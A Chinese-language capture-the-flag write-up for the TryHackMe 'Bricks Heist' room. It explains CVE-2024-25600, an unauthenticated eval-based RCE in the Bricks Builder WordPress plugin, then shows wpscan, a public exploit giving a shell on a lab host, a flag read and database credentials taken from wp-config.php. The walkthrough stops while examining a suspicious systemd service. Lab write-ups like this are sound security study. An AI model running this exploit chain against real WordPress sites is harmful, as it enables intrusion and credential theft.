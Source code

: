 ```yaml
---
icon: pen-to-square
date: 2025-04-30
tags: 
title: TryHack3M_Bricks Heist
category:
  - 项目
---
```

## 前言
本题运用了wordpress漏洞[**_CVE-2024-25600_**](https://medium.com/@chinamayjoshi/unauthenticated-remote-code-execution-rce-vulnerability-in-bricks-builder-for-wordpress-a12132c91cc1)
我们可以提前配置wordscan，WPScan 是一款针对 WordPress 的安全扫描工具，用于检测插件、主题漏洞、用户枚举及配置问题。

### 漏洞原理
Bricks <= 1.9.6版本，漏洞为远程代码执行 （RCE），
漏洞存在于Bricks\Query类中，Bricks\Query 类用于管理 WordPress 帖子查询的渲染。
在`Bricks\Query` 类包含的方法`prepare_query_vars_from_settings`中第十行存在eval函数，会处理`$php_query_raw`参数
```php
$user_result = eval( $php_query_raw ); // Execute the user code
```
接下来需要我们找到一种方法来传入`$php_query_raw`参数
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250503124903.png)
发现在多处都实例化了`Bricks\Query`类

在`Bricks\Ajax::render_element($element)`处的实例化尤为显眼
Bricks 使用这个方法来显示编辑器内块/元素的预览。

实例代码：
```php
if ( ! empty( $loop_element ) ) 
	{ $query = new Query( $loop_element ); // CUT FOR BREVITY 
	}
```
该方法可通过`admin-ajax.php` 端点和 `WordPress Rest API` 调用。

以上方方法调用的权限检测如下
```php
if ( bricks_is_ajax_call() && isset( $_POST ) ) {
    self::verify_request();
}

elseif ( bricks_is_rest_call() ) {
    // REST API (Permissions checked in the API->render_element_permissions_check())
}
```
`bricks_is_ajax_call()`分支中会调用`Ajax::verify_request()`，检查当前用户是否有权访问 Bricks 构建器
但是，如果此方法是通过 REST API 调用的，则不会调用`Ajax::verify_request()`。
因为REST API会进行回调检查，
关于`render_element`调用的路由表(注册路径)
```php
// Server-side render (SSR) for builder elements via window.fetch API requests
		register_rest_route(
			self::API_NAMESPACE,
			'render_element',
			[
				'methods'             => 'POST',
				'callback'            => [ $this, 'render_element' ],
				'permission_callback' => [ $this, 'render_element_permissions_check' ],
			]
		); 

```

但在`render_element_permission_check`方法中没有执行任何权限检查，代码略
该方法仅检查请求是否包含有效的`nonce`，`nonce`只能防止重放攻击，并不能进行权限检查


## 解题过程
先用wpscan 扫描一下目标服务器，
```bash
wpscan --url https://bricks.thm/
```
发现存在bricks 且版本为1.9.5，刚好对应了此前的漏洞
于是搜索漏洞会发现许多github项目的exploit，例如
[Chocapikk/CVE-2024-25600：未经身份验证的远程代码执行 – Bricks <= 1.9.6](https://github.com/Chocapikk/CVE-2024-25600)

现在，运行漏洞利用

```shell
C:\Users\l1709\Desktop\work\CVE-2024-25600-main>python exploit.py -u https://10.10.73.131
[*] Nonce found: 4982bac29f
[+] https://10.10.73.131 is vulnerable to CVE-2024-25600. Command output: apache
[!] Shell is ready, please type your commands UwU
```

```bash
# ls
650c844110baced87e1606453b93f22a.txt
index.php
kod
license.txt
phpmyadmin
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
```

获得隐藏的txt文件
```bash
# cat 650c844110baced87e1606453b93f22a.txt
THM{fl46_650c844110baced87e1606453b93f22a}
```

```bash
# cat wp-config.php | grep DB_
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'root' );
define( 'DB_PASSWORD', 'lamp.sh' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8mb4' );
define( 'DB_COLLATE', '' );
```

```
systemctl list-units --type=service --state=running
```
用于列出当前系统中 ​**​所有正在运行的系统服务（Services）​**​。这是 Systemd 服务管理器的核心命令，可帮助管理员监控系统状态。

可以发现可疑的服务
```bash
ubuntu.service                                 loaded active running TRYHACK3M                    
```

继续输入
```bash
systemctl cat ubuntu.service
```
**查看 systemd 服务的完整配置文件内容​**，自动定位服务配置文件的存储位置，无需手动搜索。
```bash
# /etc/systemd/system/ubuntu.service
[Unit]
Description=TRYHACK3M

[Service]
Type=simple
ExecStart=/lib/NetworkManager/nm-inet-dialog
Restart=on-failure

[Install]
WantedBy=multi-user.target
```
可疑的服务名称为
`nm-inet-dialog`

来到可以的目录下
```
# dir /lib/NetworkManager
VPN             nm-dispatcher           nm-openvpn-service
conf.d          nm-iface-helper         nm-openvpn-service-openvpn-helper
dispatcher.d    nm-inet-dialog          nm-pptp-auth-dialog
inet.conf       nm-initrd-generator     nm-pptp-service
nm-dhcp-helper  nm-openvpn-auth-dialog  system-connections
```
这个命令有点奇怪，四不像,但是不可以使用cd命令
